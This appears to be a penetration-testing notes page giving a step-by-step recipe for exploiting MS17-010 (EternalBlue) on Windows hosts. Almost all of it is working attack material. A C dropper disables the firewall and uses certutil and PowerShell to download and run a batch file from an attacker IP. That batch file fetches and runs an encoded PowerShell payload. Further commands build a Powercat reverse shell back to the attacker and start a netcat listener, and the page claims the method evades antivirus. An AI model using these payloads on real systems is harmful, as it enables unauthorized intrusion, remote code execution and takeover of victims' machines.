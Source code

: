 ```yaml
---
title: MS17-010 EternalBlue
parent: Common Exploits
layout: default
nav_order: 3
---
```


This disables the firewall, evade AV, and can work even without PowerShell. Windows 7+.

1. Go to your /tmp folder and setup http listener: `python3 -m http.server 80`
2. Create the following file `testexe.c` in /tmp (Change IP)
3. Compile it to something.exe: `i686-w64-mingw32-gcc testexe.c -o /tmp/something.exe`
4. Generate a payload using Powercat (replace LHOST and LPORT with attacker IP):
   `pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c IP -p 25 -e cmd.exe -ge" > /tmp/shell-25.txt`
5. Create the file `/tmp/backup.bat`  in /tmp as below. (Change IP)
6. Set up a listener on port 25 to catch Powercat: `rlwrap nc -nlvp 25`
7. Download the file `mysmb.py` and `send_and_execute.py` from here: https://github.com/helviojunior/MS17-010 and put them in the same folder.
8. Run the python2 script `send_and_execute.py` using pipenv shell:
   `python send_and_execute.py targetIP /tmp/something.exe`
9. Wait patiently!

##### testexe.c (REMEMBER IP PORT)
```
#include <stdlib.h>
int main ()
{
int i;
i = system ("netsh advfirewall set allprofiles state off");
i = system ("certutil.exe -urlcache -split -f \"http://192.168.119.213:80/backup.bat\" C:\\Windows\\Tasks\\backup.bat");
i = system ("powershell.exe -c (New-Object System.Net.Webclient).DownloadFile('http://192.168.119.213:80/backup.bat','C:\\Windows\\Tasks\\backup.bat')");
i = system ("START /B C:\\Windows\\Tasks\\backup.bat");
i = system ("icacls C:\\Windows\\Tasks\\* /c /t /grant everyone:f");
return 0;
}
```

##### backup.bat (REMEMBER IP)

```
START /B powershell -c $code=(New-Object System.Net.Webclient).DownloadString('http://IP:80/shell-25.txt');iex 'powershell -E $code'
```